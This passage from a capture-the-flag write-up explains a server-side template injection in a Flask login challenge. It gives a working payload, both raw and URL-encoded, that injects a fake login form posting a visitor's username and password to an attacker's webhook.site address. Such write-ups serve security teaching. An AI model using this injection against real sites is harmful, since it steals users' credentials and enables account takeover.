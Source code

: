 ```python
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```
So looking at the code, we can see it's a Flask app, it has only one route `/`{:.filepath } and accepts `GET` and `POST` requests, as we can see at the `POST` request it isn't a broken login, It is a FAKE login!!

By looking at the `GET` request, we can notice 2 things, the first one is this `render_template_string()` function, according to the Holy [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) website, this function is vulnerable to SSTI (Server-Side Template Injection) attack!

Another thing to look at is that format string `%s` with this unused `message` parameter, using it we can inflect some input on the page! That is a full SSTI crime!

Now before we get happy, there is some form of sanitization of our input on the page, we can see that the message shouldn't be longer than 25 characters (Probably to not have RCE, preventing unintended solution) and this `escape()` function filters out anything that can be used to do an XSS attack, damn it!

To exploit this, the trick is that we can define another parameter (let's call it `st`), and then in the `message` parameter we can inject {% raw %}`{{request.args.st|safe}}`{% endraw %}, the `request.args.st` part of the payload obtains any input we provide to the `st` parameter, the safe filter is jinja's (the templating engine being used here) way of saying hey I want this input to be executed without sanitization as I trust it, THE JOKES ON YOU.

Now that we have gathered all the parts we need there is one thing left, one thing to note is that the bot is looking for the first form to submit the data, and luckily for us, the string format is above the form so we can inject our own form!
so our URL with the form will look like this:

```url
https://brokenlogin.web.actf.co/?message={{request.args.st|safe}}&st=<form action="https://webhook.site/your_webhook_id" method="POST">
    <label for="username">Username: </label>
    <input id="username" type="text" name="username" /><br /><br />

    <label for="password">Password: </label>
    <input id="password" type="password" name="password" /><br /><br />

    <input type="submit" />
</form>
```

Then we URL encode it to be:

```url
https://brokenlogin.web.actf.co/?message={{request.args.st|safe}}&st=%3Cform%20action=%22https://webhook.site%22%20method=%22POST%22%3E%0A%20%20%20%20%3Clabel%20for=%22username%22%3EUsername:%20%3C/label%3E%0A%20%20%20%20%3Cinput%20id=%22username%22%20type=%22text%22%20name=%22username%22%20/%3E%3Cbr%20/%3E%3Cbr%20/%3E%0A%0A%20%20%20%20%3Clabel%20for=%22password%22%3EPassword:%20%3C/label%3E%0A%20%20%20%20%3Cinput%20id=%22password%22%20type=%22password%22%20name=%22password%22%20/%3E%3Cbr%20/%3E%3Cbr%20/%3E%0A%0A%20%20%20%20%3Cinput%20type=%22submit%22%20/%3E%0A%3C/form%3E
```
So when the bot hits visit this link it will post the credentials to our website! 
